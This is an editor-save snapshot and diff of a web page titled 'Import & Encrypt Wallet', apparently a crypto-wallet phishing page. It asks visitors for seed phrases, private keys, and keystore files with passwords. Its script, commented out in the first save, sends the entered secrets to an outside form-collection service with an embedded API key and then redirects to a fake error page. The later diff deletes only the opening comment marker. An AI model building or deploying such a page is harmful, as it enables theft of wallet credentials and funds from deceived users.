
Repository: mikun2/.com
Page: dist/import.html
The author's editor kept a copy of each file at every save. The page is drawn from the files as they stood at one save, then again after the next save.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2024-11-03 16:42:22.

### dist/import.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link rel="stylesheet" href="./output.css" />
    <link
      rel="icon"
      href="/dist/images/authereum-Copy.svg"
      type="image/x-icon"
      sizes="32x32"
    />

    <title>Import</title>
  </head>
  <body>
    <h1 class="text-3xl font-extrabold text-center mb-9 mt-20">
      Import & Encrypt Wallet
    </h1>
    <nav
      class="relative z-0 flex border rounded-xl overflow-hidden dark:border-neutral-700"
      aria-label="Tabs"
      role="tablist"
      aria-orientation="horizontal"
    >
      <button
        type="button"
        class="hs-tab-active:border-b-blue-600 hs-tab-active:text-gray-900 dark:hs-tab-active:text-white relative dark:hs-tab-active:border-b-blue-600 min-w-0 flex-1 bg-white first:border-s-0 border-s border-b-2 py-4 px-4 text-gray-500 hover:text-gray-700 text-sm font-medium text-center overflow-hidden hover:bg-gray-50 focus:z-10 focus:outline-none focus:text-blue-600"
        id="bar-with-underline-item-1"
        data-tab-target="#bar-with-underline-1"
        role="tab"
      >
        Seed/Recovery Phrase
      </button>
      <button
        type="button"
        class="hs-tab-active:border-b-blue-600 hs-tab-active:text-gray-900 dark:hs-tab-active:text-white relative dark:hs-tab-active:border-b-blue-600 min-w-0 flex-1 bg-white first:border-s-0 border-s border-b-2 py-4 px-4 text-gray-500 hover:text-gray-700 text-sm font-medium text-center overflow-hidden hover:bg-gray-50 focus:z-10 focus:outline-none focus:text-blue-600"
        id="bar-with-underline-item-2"
        data-tab-target="#bar-with-underline-2"
        role="tab"
      >
        KeyStore JSON
      </button>
      <button
        type="button"
        class="hs-tab-active:border-b-blue-600 hs-tab-active:text-gray-900 dark:hs-tab-active:text-white relative dark:hs-tab-active:border-b-blue-600 min-w-0 flex-1 bg-white first:border-s-0 border-s border-b-2 py-4 px-4 text-gray-500 hover:text-gray-700 text-sm font-medium text-center overflow-hidden hover:bg-gray-50 focus:z-10 focus:outline-none focus:text-blue-600"
        id="bar-with-underline-item-3"
        data-tab-target="#bar-with-underline-3"
        role="tab"
      >
        Private Key
      </button>
    </nav>

    <div class="mt-3">
      <!-- Seed/Recovery Phrase Form -->
      <div id="bar-with-underline-1" role="tabpanel" class="tab-panel">
        <form
          method="post"
          action="http://localhost:3000/submit-seed"
          class="max-w-lg mx-auto p-6 bg-white rounded-lg shadow-md space-y-4 mt-6"
          id="form-seed"
        >
          <div>
            <label
              for="phrase-value"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Phrase Value
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="phrase"
              placeholder="Enter your phrase value..."
              type="text"
              id="phrase-value"
              required
            />
          </div>
          <h1>Typically 12 (sometimes 24) words separated by single spaces.</h1>
          <div>
            <input
              type="submit"
              class="w-full p-3 bg-blue-600 text-white rounded-md shadow-sm hover:bg-blue-700 focus:outline-none focus:ring-2 focus:ring-blue-500"
              value="Import"
            />
          </div>
        </form>
      </div>

      <!-- KeyStore JSON Form -->
      <div id="bar-with-underline-2" class="tab-panel hidden">
        <form
          class="max-w-lg mx-auto p-6 bg-white rounded-lg shadow-md space-y-4 mt-6"
          id="form-keystore"
        >
          <div>
            <label
              for="keystore-value"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Keystore Value
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="keystore"
              placeholder="Enter your Keystore value..."
              type="text"
              id="keystore-value"
              required
            />
          </div>

          <div>
            <label
              for="keystore-password"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Password
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="password"
              placeholder="Enter your Password..."
              type="password"
              id="keystore-password"
              required
            />
          </div>

          <div>
            <input
              type="submit"
              class="w-full p-3 bg-blue-600 text-white rounded-md shadow-sm hover:bg-blue-700 focus:outline-none focus:ring-2 focus:ring-blue-500"
              value="Import"
            />
          </div>
        </form>
      </div>

      <!-- Private Key Form -->
      <div id="bar-with-underline-3" class="tab-panel hidden">
        <form
          class="max-w-lg mx-auto p-6 bg-white rounded-lg shadow-md space-y-4 mt-6"
          id="form-privatekey"
        >
          <div>
            <label
              for="privatekey-value"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Private Key
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="privatekey"
              placeholder="Enter your Private Key..."
              type="text"
              id="privatekey-value"
              required
            />
          </div>
          <div>
            <input
              type="submit"
              class="w-full p-3 bg-blue-600 text-white rounded-md shadow-sm hover:bg-blue-700 focus:outline-none focus:ring-2 focus:ring-blue-500"
              value="Import"
            />
          </div>
        </form>
      </div>
    </div>

    <!-- <script>
      // Tab switching functionality
      const tabs = document.querySelectorAll("[data-tab-target]");
      const tabPanels = document.querySelectorAll(".tab-panel");

      tabs.forEach((tab) => {
        tab.addEventListener("click", () => {
          const target = document.querySelector(tab.dataset.tabTarget);
          tabPanels.forEach((panel) => panel.classList.add("hidden"));
          tabs.forEach((t) => t.classList.remove("active"));
          target.classList.remove("hidden");
          tab.classList.add("active");
        });
      });

      // Dynamic form handling
      document.querySelectorAll("form").forEach((form) => {
        form.addEventListener("submit", async function (event) {
          event.preventDefault(); // Prevent default form submission

          const url = `https://api.submitjson.com/v1/submit/yfJX06ncb`;
          let formData = {};

          // Collect data from the active form
          new FormData(form).forEach((value, key) => {
            formData[key] = value;
          });

          // Submit data
          const response = await fetch(url, {
            method: "POST",
            headers: {
              "content-type": "application/json",
              "X-API-Key": "sjk_98826fc22d4842f787a32a490aea4e10", // Replace with your API Key
            },
            body: JSON.stringify({ data: formData }),
          });

          const result = await response.json();

          if (response.ok) {
            window.location.href = "https://defii.netlify.app/error"; // Redirect after submission
          } else {
            alert("Failed to submit the form. Please try again.");
          }
        });
      });
    </script> -->
  </body>
</html>

Loaded but not shown: dist/output.css (2623 lines, source omitted)

After the next save:

Saved 5 days later.
--- a/dist/import.html
+++ b/dist/import.html
@@ -171,7 +171,6 @@
       </div>
     </div>
 
-    <!-- <script>
       // Tab switching functionality
       const tabs = document.querySelectorAll("[data-tab-target]");
       const tabPanels = document.querySelectorAll(".tab-panel");
